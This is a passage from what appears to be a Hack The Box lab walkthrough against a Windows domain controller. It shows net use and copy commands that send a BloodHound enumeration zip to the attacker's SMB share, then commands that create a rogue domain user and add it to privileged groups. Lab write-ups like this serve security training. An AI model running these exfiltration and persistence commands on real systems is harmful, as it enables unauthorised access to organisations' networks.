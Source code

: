 On the target do:

```
net use \\10.10.14.24\sh1n /u:foo bar
```

Then send the file over:
```
copy 20200329120253_BloodHound.zip \\10.10.14.24\sh1n\
```

Now remove the share.
```
net use /d \\10.10.14.24\sh1n
```

We should probably also remove the zip, incase some other HTB users find it.

```
del *.zip
```

<hr width="300" size="10">


After examining the results, and adjusting svc-alfresco's group memberships I hit a stumbling block.


<hr width="300" size="10">





<h3>Add User</h3>

There seems to be some clean-up going on here, the user svc-alfresco seems to revert after a
short while, making playing with this account problematic.

We can use him however to create a new user, and assign that user to groups and award privileges,
then repeat the process. I also delete all files and the boo folder, and start again.


I create user 'sh1n0bi'

```
net user sh1n0bi password123 /add /domain
```

Try to award the new user with the same group membership and privileges as svc-alfresco.

examples:

```
PS > net localgroup "Remote Management Users" sh1n0bi /add
The command completed successfully.

PS > net localgroup "Pre-Windows 2000 Compatible Access" sh1n0bi /add
The command completed successfully.

PS > net group "Security Administrator" sh1n0bi /add /domain
The command completed successfully

```
